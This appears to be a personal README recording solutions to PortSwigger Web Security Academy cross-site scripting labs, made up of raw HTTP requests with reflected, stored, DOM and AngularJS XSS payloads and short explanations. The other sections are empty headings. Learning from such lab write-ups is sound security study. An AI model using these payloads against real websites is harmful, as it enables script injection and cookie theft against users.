





# Web Security Academy

## Objective

Keep track of my solutions for each Academy labs that I complete from this point forward. For the simplest ones, I do not expect to have much more details than the payload.

## SQL injection

### Apprentice

### Practitioner

### Expert

## Cross-site scripting

### Apprentice

#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with nothing encoded

```http
GET /?search=<script>alert("xss")</script> HTTP/2
Host: web-security-academy.net
```
#### [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into HTML context with nothing encoded

```http
POST /post/comment HTTP/2
Host: web-security-academy.net

csrf=n9tEwCTM1iXg7nP4Rbr6S1WBleMedvrX&postId=6&comment=<script>alert("xss")</script>&name=xss&email=xss@xss.xss&website=
```

####  [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search`

Before the XSS, inject enough HTML to close the existing tag.

```http
GET /?search="><script>alert("xss")</script> HTTP/2
Host: web-security-academy.net
```



#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `innerHTML` sink using source `location.search`

Inject HTML content that triggers XSS. Most simple is `img` with an invalid `src` attribute.

```http
GET /?search= HTTP/2
Host: web-security-academy.net
```

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in jQuery anchor `href` attribute sink using `location.search` source

```http
GET /feedback?returnPath=javascript:alert(document.cookie) HTTP/1.1
Host: web-security-academy.net
```

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in jQuery selector sink using a hashchange event

Exploit server response with malicious payload.

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Server: Academy Exploit Server
Content-Length: 133

<iframe src="https://web-security-academy.net/#" onload="this.src+=''">
```

#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into attribute with angle brackets HTML-encoded

```http
GET /?search=value" autofocus onfocus=javascript:alert() catcher=" HTTP/2
Host: web-security-academy.net
```

There was some leftover quotes from the `value` attribute that needed to be matched in order for the `onfocus` attribute to not fail.



#### [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into anchor `href` attribute with double quotes HTML-encoded

```http
POST /post/comment HTTP/2
Host: web-security-academy.net

csrf=M20B5PFxtj616yG2NUeu26yMhrYYFKMN&postId=2&comment=comment&name=name&email=email@email.com&website=javascript:alert()
```



#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into a JavaScript string with angle brackets HTML encoded

```http
GET /?search=%27-alert%281%29%2F%2F HTTP/2
Host: web-security-academy.net
```



### Practitioner

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search` inside a select element

```html
GET /product?productId=2&storeId=Pariss<select> HTTP/2
Host: web-security-academy.net
```



#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression with angle brackets and double quotes HTML-encoded

```http
GET /?search={{constructor.constructor('alert(1)')()}} HTTP/2
Host: web-security-academy.net
```

Payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs)

#### Reflected [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

I had to lookup the solution for this one and even watch a community video to fully understand it. I didn't now that there was a difference between JSON and Javascript Objects. 

If I had to summary the vulnerability, I would say that it is a content injection (we can inject content into the API response via unescaped "\"). Followed by triggering the `alert("xss")` function via an arithmetic operator ("-"). Also, unsafe use of the `eval` function.

```http
GET /search-results?search=%5C%22-alert%281%29%7D%2F%2F HTTP/2
Host: web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

{"results":[],"searchTerm":"\\"-alert(1)}//"}
```

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
[...]
```

Following the injection, the `eval` statement will look like:

```javascript
eval('var searchResultsObj = ' + ""-alert(1));
```


### Expert

## Cross-site request forgery
### Apprentice
### Practitioner
### Expert

## Clickjacking
### Apprentice
### Practitioner

## DOM-based vulnerabilities
### Apprentice
### Practitioner
### Expert

## Cross-origin resource sharing
### Apprentice
### Practitioner
### Expert

## XML external entity injection
### Apprentice
### Practitioner
### Expert

## Server-side request forgery
### Apprentice
### Practitioner
### Expert

## HTTP request smuggling
### Apprentice
### Practitioner
### Expert

## OS command injection
### Apprentice
### Practitioner

## Server-side template injection
### Apprentice
### Practitioner
### Expert

## Path traversal
### Apprentice
### Practitioner

## Access control vulnerabilities
### Apprentice
### Practitioner

## Authentication
### Apprentice
### Practitioner
### Expert

## WebSockets
### Apprentice
### Practitioner

## Web cache poisoning
### Practitioner
### Expert

## Insecure deserialization
### Apprentice
### Practitioner
### Expert

## Information disclosure
### Apprentice
### Practitioner

## Business logic vulnerabilities
### Apprentice
### Practitioner
### Expert

## HTTP Host header attacks
### Apprentice
### Practitioner
### Expert

## OAUTH authentication
### Apprentice
### Practitioner
### Expert

## File upload vulnerabilities
### Apprentice
### Practitioner
### Expert

## JWT
### Apprentice
### Practitioner
### Expert

## Essential skills
### Practitioner

## Prototype pollution
### Practitioner
### Expert

## GraphQL API vulnerabilities
### Apprentice
### Practitioner

## Race conditions
### Apprentice
### Practitioner
### Expert

## NoSQL injection
### Apprentice
### Practitioner

## API testing
### Apprentice
### Practitioner
### Expert

## Web LLM attacks
### Apprentice
### Practitioner
### Expert